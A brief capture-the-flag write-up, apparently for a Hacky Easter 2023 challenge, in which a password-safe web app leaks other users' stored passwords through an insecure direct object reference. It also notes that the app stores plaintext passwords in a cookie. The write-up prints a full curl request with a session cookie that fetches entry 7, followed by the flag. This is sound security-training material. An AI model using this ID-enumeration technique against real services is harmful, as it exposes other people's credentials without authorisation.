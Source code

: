 You can create an account and store passwords in the safe.
When using the remindMe option, it seems to be adding a cookie which contains your plaintext password, which looks quite fishy.

You seem to be able to fetch certain passwords if you create certain passwords.
And you also seem to be able to fetch other passwords.

After trying multiple IDs, 7 seems to be the lucky number.

```
curl 'http://ch.hackyeaster.com:2312/get/7' \  
 -H 'Accept: */*' \  
 -H 'Accept-Language: en-GB,en;q=0.9,nl-BE;q=0.8,nl;q=0.7,en-US;q=0.6' \  
 -H 'Cache-Control: no-cache' \  
 -H 'Connection: keep-alive' \  
 -H 'Cookie: session=.eJwlzjkOAjEMAMC_pKaIHTtx9jOr-BK0e1SIv4PEvGDeZc8jzmfZruOOR9lfXrZi4ZyYOJitIs3ep6FOSAwgtSaETfqAruK103SazXKMJmBq6plhonU1Ym_Jo-Mw6JXMGyGEO_KaqoGQmgAmlZabIE9Zy0jKL3Kfcfw3V5xX-XwBT2kxKw.ZE2A9A.PTqT1YDr4vxuOOtioKsIK8pOf6Q  
' \  
 -H 'Pragma: no-cache' \  
 -H 'Referer: http://ch.hackyeaster.com:2312/show' \  
 -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36' \  
 -H 'X-Requested-With: XMLHttpRequest' \  
 --compressed \  
 --insecure
```

he2023{1d0R_c4n_d3str0y_ur_Crypt0_3ff0rt}

